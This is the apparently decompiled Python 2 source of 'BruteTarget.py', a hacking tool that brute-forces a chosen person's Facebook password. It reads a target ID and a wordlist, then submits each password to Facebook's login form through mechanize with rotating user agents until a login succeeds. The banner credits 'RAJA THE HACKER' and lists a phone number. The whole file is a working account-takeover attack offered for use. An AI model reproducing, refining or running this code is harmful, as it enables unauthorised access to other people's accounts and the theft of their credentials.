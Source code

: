 
#decompile by  #-----------------------------------------  """  BruteTarget.py  Created by AuthenticXploit on 09/07/2021.  Copyright (c) 2021 Copyright Holder. All rights reserved.  """  try:      import sys, mechanize, cookielib, random, os, time      from os import system      from time import sleep      from sys import exit  except ImportError as f:      system('clear')      print ('\x1b[32;1m[\x1b[31;1m!\x1b[32;1m] \x1b[0;33mError \x1b[31;1m: \x1b[37;1m{}').format(f)  banner = "\x1b[36;1m \n                     \n     \x1b[1;97m NAME   \x1b[31;1m:  \x1b[32mRAJA THE HACKER\n     \x1b[1;97m WHATSAPP     \x1b[31;1m:  \x1b[32m+923022536182\n     \x1b[1;97m NOTE  \x1b[31;1m       :  \x1b[32mUSE 4G SPEED INTERNET\n     \x1b[1;97m NOTE  \x1b[31;1m       :  \x1b[32mDONT COPY MY STYLE  \n     \x1b[1;97m NOTE   \x1b[31;1m       :  \x1b[32mFEEL NA KR KAKA \n     \x1b[1;97mOR SUN  \x1b[31;1m       :  \x1b[32mWORLDPASS LIST LAGA ID LY   OR BAG  \n     \x1b[1;97mJIGERS  \x1b[31;1m       :  \x1b[32mRAJA+KHASKHELI  \n     \x1b[1;97m\n"  def slowprint(s):      for c in s + '\n':          sys.stdout.write(c)          sys.stdout.flush()          sleep(2.0 / 90)  system('clear')  slowprint(banner)  email = str(raw_input('\x1b[37;1mINPUT TARGET ID   \x1b[31;1m: \x1b[33;1m'))  passwordlist = str(raw_input('\x1b[37;1minput passlist path( passlist.txt ) \x1b[31;1m: \x1b[33;1m'))  login = 'https://www.facebook.com/login.php?login_attempt=1'  useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]  def main():      global br      try:          br = mechanize.Browser()          cj = cookielib.LWPCookieJar()          br.set_handle_robots(False)          br.set_handle_redirect(True)          br.set_cookiejar(cj)          br.set_handle_equiv(True)          br.set_handle_referer(True)          br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)          menu()          search()          print '\x1b[32;1m[\x1b[31;1m!\x1b[32;1m]\x1b[33;1m Password does not exist in the passlist'      except mechanize.URLError:          print '\n\x1b[32;1m[\x1b[31;1m!\x1b[32;1m]\x1b[33;1m No Connection'          sleep(2)          print '\x1b[32;1m[\x1b[31;1m!\x1b[32;1m] \x1b[31;1mExit\x1b[0m'          exit()  def brute(password):      sys.stdout.write(('\x1b[36;1m\r[\x1b[33;1m-\x1b[36;1m] \x1b[37;1mTrying Password \x1b[31;1m=> \x1b[33;1m{}\n').format(password))      sys.stdout.flush()      br.addheaders = [('User-agent', random.choice(useragents))]      site = br.open(login)      br.select_form(nr=0)      br.form['email'] = email      br.form['pass'] = password      sub = br.submit()      log = sub.geturl()      if log != login and 'login_attempt' not in log:          print ('\x1b[36;1m[\x1b[33;1m+\x1b[36;1m] \x1b[37;1mPassword Found => \x1b[32;1m{}').format(password)          raw_input('\x1b[31;1mANY KEY to Exit....')          exit(1)  def search():      global password      passwords = open(passwordlist, 'r')      for password in passwords:          password = password.replace('\n', '')          brute(password)  def menu():      try:          total = open(passwordlist, 'r')          total = total.readlines()          print banner          print ('\x1b[36;1m[\x1b[31;1m-\x1b[36;1m] \x1b[32;1mAccount to crack \x1b[31;1m> \x1b[0;33m{}').format(email)          print '\x1b[36;1m[\x1b[31;1m-\x1b[36;1m] \x1b[32;1mLoaded \x1b[31;1m>\x1b[0;33m', len(total), 'passwords'          print '\x1b[36;1m[\x1b[31;1m-\x1b[36;1m] \x1b[33;1mCracking, please wait ...\n'      except IOError:          print ('\n\x1b[32;1m[\x1b[31;1m!\x1b[32;1m]\x1b[33;1m File wordlist \x1b[36;1m{} \x1b[33;1mNot Found\x1b[0m').format(passwordlist)          exit()  if __name__ == '__main__':      try:          main()      except (KeyboardInterrupt, EOFError):          print '\x1b[36;1m\n[\x1b[31;1m!\x1b[36;1m]\x1b[33;1mDetects a forced stop program \x1b[0m'          exit(0)
